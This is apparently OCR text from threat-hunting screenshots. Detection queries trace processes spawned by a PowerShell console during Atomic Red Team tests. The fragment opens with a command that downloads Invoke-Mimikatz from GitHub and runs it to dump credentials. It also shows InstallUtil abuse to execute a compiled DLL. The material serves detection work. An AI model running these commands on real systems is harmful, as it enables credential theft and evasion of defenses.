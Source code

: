 'https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1');

Invoke-Mimikatz -DumpCreds"

network process explorer.exe network

powershell.exe

raw.githubusercontent.com

"C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe" /?

InstallUtil.exe C:\Users\NEWTSC~1\AppData\Local\Temp\ a3541d3f-a4db-c8b0-dab7-c268095df70e.chm

InstallUtil.exe

10.10.10.10

explicate parvuli
What descendants were spawned from the interactive PowerShell console?
process where subtype.create and descendant of [ network where event of [ process where subtype.create and parent_process_name == "explorer.exe" and process_name == "powershell.exe" ]
]
43 results found

explicate parvuli

What descendants were spawned from the interactive PowerShell console?

process_name csc.exe cvtres.exe
cmd.exe

command_line "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\NewtScamander\AppData\Local\Temp\cwit4koq.cmdline" C:\Windows\Microsoft.NET\Framework64\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\NEWTSC~1\AppData\Local\Temp\RES6F90.tmp" "c:\Users\NewtScamander\AppData\Local\Temp\CSCFCD426139CD74D618CE7A9833BF7FF69.TMP" "C:\Windows\system32\cmd.exe" /c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs "

csc.exe

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:C:\AtomicRedTeam\atomics\T1118\src\T1118.dll C:\AtomicRedTeam\atomics\T1118\src\T1118.cs

cvtres.exe cmd.exe

C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\NEWTSC~1\AppData\Local\Temp\RES2728.tmp" "c:\AtomicRedTeam\atomics\T1118\src\CSC7414F1A333B45CDB71DB995A782FCC.TMP" "C:\Windows\system32\cmd.exe" /c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\AtomicRedTeam\atomics\T1118\src\T1118.dll"

Showing results 1-6 of 43

explicate parvuli

What descendants were spawned from the interactive PowerShell console?

process_name InstallUtil.exe cmd.exe cmd.exe
csc.exe
cvtres.exe
cmd.exe

